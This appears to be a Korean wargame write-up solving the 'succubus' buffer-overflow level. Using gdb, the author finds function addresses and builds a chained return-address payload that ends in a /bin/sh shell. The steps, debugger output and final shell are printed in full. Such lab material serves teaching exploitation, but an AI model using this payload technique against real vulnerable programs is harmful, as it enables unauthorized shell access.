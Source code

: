 ``` gdb
(gdb) print DO
$1 = {<text variable, no debug info>} 0x80487ec <DO>
(gdb) print GYE
$2 = {<text variable, no debug info>} 0x80487bc <GYE>
(gdb) print GUL
$3 = {<text variable, no debug info>} 0x804878c <GUL>
(gdb) print YUT
$4 = {<text variable, no debug info>} 0x804875c <YUT>
(gdb) print MO
$5 = {<text variable, no debug info>} 0x8048724 <MO>
0x400fbff9 = /bin/sh
```

payload = "A"*44 + DO 주소 + GYE 주소 + GUL 주소 + YUT 주소 + MO 주소 + "AAAA" + /bin/sh 주소

~/succubus `python -c 'print "A"*44 + "\xec\x87\x04\x08" + "\xbc\x87\x04\x08" + "\x8c\x87\x04\x08" + "\x5c\x87\x04\x08" + "\x24\x87\x04\x08" + "AAAA" + "\xf9\xbf\x0f\x40"'`

하지만 /bin/sh 주소를 넣어주기 위해 0x400fbff9를 사용한다면 You cannot use library 라는 에러 메시지와 함께 종료된다. 이를 해결하기 위해 argv[1] 끝에 /bin/sh를 붙여 이용하자. argv[1]에서의 주소를 구해봤자 어차피 삭제되기 때문에 buffer에 남는 주소를 구해야한다.

``` gdb
Starting program: /home/zombie_assassin/succubu2 `python -c 'print "A"*44 + "\xec\x87\x04\x08" + "\xbc\x87\x04\x08" + "\x8c\x87\x04\x08" + "\x5c\x87\x04\x08" + "\x24\x87\x04\x08" + "AAAA" + "BBBB" + "/bin/sh"'`

(gdb) x/s $ebp-40
0xbffffa30:	 'A' <repeats 44 times>, "?207\004\b?207\004\b\214\207\004\b\\\207\004\b$\207\004\bAAAABBBB/bin/sh"
(gdb) x/s $ebp-40+72
0xbffffa78:	 "/bin/sh"
```
~/succubu2 `python -c 'print "A"*44 + "\xec\x87\x04\x08" + "\xbc\x87\x04\x08" + "\x8c\x87\x04\x08" + "\x5c\x87\x04\x08" + "\x24\x87\x04\x08" + "AAAA" + "\x78\xfa\xff\xbf"+"/bin/sh"'`

core를 이용해 다시 /bin/sh의 주소를 구하면

``` gdb
(gdb) x/s 0xbffffa58
0xbffffa58:	 "/bin/sh"
```

~/succubu2 `python -c 'print "A"*44 + "\xec\x87\x04\x08" + "\xbc\x87\x04\x08" + "\x8c\x87\x04\x08" + "\x5c\x87\x04\x08" + "\x24\x87\x04\x08" + "AAAA" + "\x58\xfa\xff\xbf"+"/bin/sh"'`

``` bash2
[zombie_assassin@localhost zombie_assassin]$ ~/succubu2 `python -c 'print "A"*44 + "\xec\x87\x04\x08" + "\xbc\x87\x04\x08" + "\x8c\x87\x04\x08" + "\x5c\x87\x04\x08" + "\x24\x87\x04\x08" + "AAAA" + "\x58\xfa\xff\xbf"+"/bin/sh"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA?펶??\?$?AAAAX??bin/sh
welcome to the DO!
welcome to the GYE!
welcome to the GUL!
welcome to the YUT!
welcome to the MO!
bash$ exit
exit
Segmentation fault (core dumped)
[zombie_assassin@localhost zombie_assassin]$ ~/succubus `python -c 'print "A"*44 + "\xec\x87\x04\x08" + "\xbc\x87\x04\x08" + "\x8c\x87\x04\x08" + "\x5c\x87\x04\x08" + "\x24\x87\x04\x08" + "AAAA" + "\x58\xfa\xff\xbf"+"/bin/sh"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA?펶??\?$?AAAAX??bin/sh
welcome to the DO!
welcome to the GYE!
welcome to the GUL!
welcome to the YUT!
welcome to the MO!
bash$ id
```